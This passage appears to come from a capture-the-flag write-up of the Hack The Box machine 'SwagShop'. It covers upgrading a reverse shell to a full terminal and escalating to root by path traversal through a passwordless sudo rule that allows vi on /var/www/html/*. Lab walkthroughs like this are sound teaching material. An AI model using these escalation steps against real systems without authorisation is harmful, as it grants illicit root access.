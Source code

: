 
From there I can grab `user.txt`:

    
    
    $ cat user.txt 
    a4488772...
    

## Privesc to root

### Shell Upgrade

Now that I have a shell, I’ll upgrade it to a full tty which will allow me to
run commands like `su` and `vi`, as well as tab completion and arrow keys. I
don’t show this on every writeup, but I certainly do it every time I get a
shell on Linux.

It’s difficult to show because the terminal gets cleared, but the steps are:

  1. `python -c 'import pty;pty.spawn("/bin/bash")'`. `python3` works as well.
  2. Ctrl-z to background shell. At local prompt, `stty raw -echo`.
  3. `fg` to bring shell back to front.
  4. `reset` to reinitialize the terminal. If prompted for Terminal type, enter `screen`.
  5. In reset shell, `export TERM=screen`.

I can also use `stty -a` on my local shell to see the rows and columns. Then I
can set it for the remote shell by running `stty rows [#rows] columns
[#columns]`. This will allow things like `vi` or `less` to use the full
screen.

### Enumeration

`sudo -l` shows I can run `sudo` with no password on `vi` in the web dir:

    
    
    www-data@swagshop:/home/haris$ sudo -l
    Matching Defaults entries for www-data on swagshop:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User www-data may run the following commands on swagshop:
        (root) NOPASSWD: /usr/bin/vi /var/www/html/*
    

### Read Flag

The fastest path to the flag is just to open it with `vi`. Based on the `sudo`
output above, I’ll run:

    
    
    www-data@swagshop:/$ sudo /usr/bin/vi /var/www/html/../../../root/root.txt
    
    
    
    c2b087d6...
    
       ___ ___
     /| |/|\| |\
    /_| ´ |.` |_\           We are open! (Almost)
      |   |.  |
      |   |.  |         Join the beta HTB Swag Store!
      |___|.__|       https://hackthebox.store/password
    